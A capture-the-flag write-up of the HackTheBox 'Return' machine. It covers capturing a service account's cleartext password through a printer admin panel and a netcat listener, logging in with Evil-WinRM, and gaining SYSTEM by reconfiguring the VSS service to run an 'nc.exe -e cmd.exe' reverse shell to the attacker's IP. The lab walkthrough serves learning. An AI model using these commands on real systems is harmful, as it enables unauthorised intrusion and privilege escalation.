








HackTheBox - Return Writeup
Table of Contents
Nmap
First, let’s start scanning the IP address with the Nmap.
result
# Nmap 7.92 scan initiated Sat Apr 2 02:24:05 2022 as: nmap -sC -sV -oN nmap/return 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.053s latency).
Not shown: 988 closed tcp ports (reset)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-01 18:42:49Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time:
| date: 2022-04-01T18:42:56
|_ start_date: N/A
|_clock-skew: 18m34s
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 2 02:24:25 2022 -- 1 IP address (1 host up) scanned in 20.29 seconds
That’s a bunch of open ports. Turns out, this machine is an Active Directory Domain.
Http
The port 80 is got my attention because the Nmap scan result says, the title of the webpage is HTB Printer Admin Panel. Let’s take a look at it, which is running on Microsoft IIS.

It is a simple webpage and a lot of the buttons on the navigation bar don’t work at all. However, when I clicked on the Settings button. I’ve been greeted by this!

So, I tried to change the password first and play around with it but nothing has happens. Then, I google around and found this HackTricks - AD information in printers. It highlights some blogs too:
- https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/
- https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856
- https://grimhacker.com/2018/03/09/just-a-printer/
NetCat
First, let’s start the nc and listen to port 389. Then, in the settings page, change the Server Address into your IP address which is tun0, and click Update.


In the image above. The nc successfully grabs the password and it’s in form of clear-text.
Evil-WinRM
Now, I have the password of the svc-printer user. Let’s try to connect to this machine by using Evil-WinRM.

YES! I’m in. This user also can read the user flag located in this directory C:\Users\svc-printer\Desktop.
Server Operators
The first thing I love to do is run this command whoami /all. This command is gonna display user, group, and privileges information for the user who is currently logged on.

Here’s the result. The BUILTIN\Server Operators caught my eyes. Why? because this group can create and delete network shared resources, start and stop services, back up and restore files. Need more information on this group. Here’s the link Microsoft - Server Operators
So, I start googling around and found this cube0x0 - Poc’ing Beyond Domain Admin - Part 1. This article shows us how to stop and start services.
nc.exe
First, I’m gonna start the python http server in my attack machine in the directory called www and it contains the copy of the nc.exe file. Then, download it into the victim machine which is a Windows machine.

System Shell
So, In this article is straight forward and I’m gonna change the service configuration. In this case, I’m gonna change the VSS config to run the nc.exe but first, I’m gonna start the nc listener in my attack machine on my desired port. Anyways, the command is down below:
# Here's the command
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.14 9901"
sc.exe stop VSS
sc.exe start VSS

TA DAAA!!! now I’m an authority\system.